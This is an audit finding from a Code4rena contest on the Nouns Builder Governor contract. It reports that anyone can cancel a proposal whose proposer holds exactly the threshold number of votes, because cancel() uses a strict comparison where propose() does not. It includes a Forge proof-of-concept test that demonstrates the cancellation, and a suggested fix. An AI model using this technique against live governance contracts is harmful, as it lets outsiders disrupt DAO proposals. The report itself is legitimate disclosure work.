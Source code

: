 ## Tags

- bug
- 2 (Med Risk)
- sponsor confirmed

# [A proposal can be cancelled by anyone if the proposal has exactly proposalThreshold votes](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/194) 

# Lines of code

https://github.com/code-423n4/2022-09-nouns-builder/blob/main/src/governance/governor/Governor.sol#L128
https://github.com/code-423n4/2022-09-nouns-builder/blob/main/src/governance/governor/Governor.sol#L363


# Vulnerability details

## Impact
If the proposer of a proposal has votes in the same amount as the proposalThreshold, they can create a proposal. But in this case, anyone can also cancel this proposal.

When creating a proposal the requirement is "Ensure the caller's voting weight is greater than or equal to the threshold".
When cancelling a proposal the check is:
if `getVotes(proposal.proposer, block.timestamp - 1) > proposal.proposalThreshold` then it the cancelling is not allowed. In effect, if the number of votes is lower than *or equal* to the proposalThreshold it can be cancelled.

In the extreme case where all the DAO members have no more than the proposalThreshold amount of votes, every proposal can be cancelled.

## Proof of Concept
The forge test below demonstrates the issue:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

import "forge-std/console.sol";
import { NounsBuilderTest } from "../utils/NounsBuilderTest.sol";

import { IManager } from "../../src/manager/IManager.sol";
import { IGovernor } from "../../src/governance/governor/IGovernor.sol";
import { GovernorTypesV1 } from "../../src/governance/governor/types/GovernorTypesV1.sol";

contract GovCancelWrongCheckTest is NounsBuilderTest, GovernorTypesV1 {
    uint256 internal constant AGAINST = 0;
    uint256 internal constant FOR = 1;
    uint256 internal constant ABSTAIN = 2;
    uint256 proposalThresholdBps = 100;

    address internal voter1 = address(0x1234);
    address internal randomUser = address(0x8888);

    function setUp() public virtual override {
        super.setUp();

        deployMock();
    }

    function testCanCancelProposalIfExactThreshold() public {
        // mint a few tokens
        for (uint256 i; i < 85; i++) {
            vm.prank(address(auction));
            token.mint();
        }
        assertEq(token.totalSupply(), 100);

        // transfer one token to voter1
        vm.prank(address(auction));
        token.transferFrom(address(auction), voter1, 5);
        assertEq(token.balanceOf(voter1), 1);

        // make sure voter has enough votes
        assertEq(governor.proposalThreshold(), 1);
        assertEq(token.getVotes(voter1), 1);

        vm.warp(block.timestamp + 1);

        // propose
        (address[] memory targets, uint256[] memory values, bytes[] memory calldatas) = mockProposal();
        vm.prank(voter1);
        bytes32 proposalId = governor.propose(targets, values, calldatas, "test");

        // Proposal created successfully
        assertEq(uint256(governor.state(proposalId)), uint256(ProposalState.Pending));

        // Cancel proposal
        vm.prank(randomUser);
        governor.cancel(proposalId);
        assertEq(uint256(governor.state(proposalId)), uint256(ProposalState.Canceled));
    }

    function setMockGovParams() internal virtual override {
        setGovParams(2 days, 1 seconds, 1 weeks, proposalThresholdBps, 1000);
    }

    function mockProposal()
        internal
        view
        returns (
            address[] memory targets,
            uint256[] memory values,
            bytes[] memory calldatas
        )
    {
        targets = new address[](1);
        values = new uint256[](1);
        calldatas = new bytes[](1);

        targets[0] = address(auction);
        calldatas[0] = abi.encodeWithSignature("pause()");
    }
}
```

## Tools Used
Manual review

## Recommended Mitigation Steps
Change the check in `cancel` to match the requirement in `propose`;
change line 363 in Governor.sol to:
`if (msg.sender != proposal.proposer && getVotes(proposal.proposer, block.timestamp - 1) >= proposal.proposalThreshold)`
